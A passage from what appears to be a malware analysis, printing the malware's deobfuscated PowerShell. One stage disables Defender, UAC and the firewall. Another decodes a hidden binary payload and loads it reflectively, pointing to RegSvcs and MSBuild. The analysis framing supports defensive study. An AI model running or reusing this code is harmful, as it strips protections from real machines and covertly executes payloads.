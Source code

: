 ``` powershell
# Set Preferences and Disable Security Features (ensure this is run as admin)
try {
    Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend -PUAProtection disable -HighThreatDefaultAction 6 -Force -ModerateThreatDefaultAction 6 -LowThreatDefaultAction 6 -SevereThreatDefaultAction 6 -ScanScheduleDay 8 -ExclusionIpAddress 127.0.0.1 -ThreatIDDefaultAction_Actions 6 -AttackSurfaceReductionRules_Ids 0 -ErrorAction SilentlyContinue
} catch {}

# Registry, Service, and Firewall Changes (ensure this is run as admin)
try {
    New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -PropertyType DWord -Value 0 -Force -ErrorAction SilentlyContinue
    netsh advfirewall set allprofiles state off -ErrorAction SilentlyContinue
} catch {}

$ErrorActionPreference = "Continue" # Reset error action preference

```

This infers that COM object hijacking is being utilised as a means of persistence, under the Class ID 'fdb00e52-a214-4aa1-8fba-4357bb0072ec'

The second, $bulgumchupitum, is as follows:

``` powershell
function kimkarden($binaryData) {
       $paddedBinaryData = $binaryData.PadRight(($binaryData.Length + 7) - ($binaryData.Length % 8), '0')
    $decodedData = $paddedBinaryData -split '(?<=\G.{8})' | ForEach-Object {
        [byte]([ConVErt]::ToINT32($_, 2) -band 255)
    }

    return $decodedData
}


$muthal = -join $muthal[-1..-($muthal.Length)]

$binaryData1 = (Yes another long binary string)
$pinch = $binaryData1.split('O')[1].split('l')[0]
$rPinchr = -join $pinch[-1..-($pinch.Length)]
$pinchs = $rPinchr.replace('*', '000000000000000000').replace('-', '111').replace('!', '1000000').replace('^', '100000')

[byte[]] $data1 = kimkarden $pinchs
[byte[]] $data2 = kimkarden $muthal

Start-Sleep -Seconds 1
$assembly = [Reflection.Assembly]::Load($data1)

# Execute the command using the decoded byte arrays
function ExecuteCommand {
    $typeName = 'A.B'
    $method = 'C'
    $type = $assembly.GetType($typeName)
    $invokeMethod = $type.GetMethod($method)
    $frameworkPath = 'C:\Windows\Microsoft.NET\Framework'
    $v4Path = $frameworkPath + '\v4.0.30319\RegSvcs.exe'
    $v2Path = $frameworkPath + '\v2.0.50727\RegSvcs.exe'
    $v3Path = $frameworkPath + '\v3.5\Msbuild.exe'
    $args = [OBJECT[]]
    $nullArray = $nulls, { $args }
```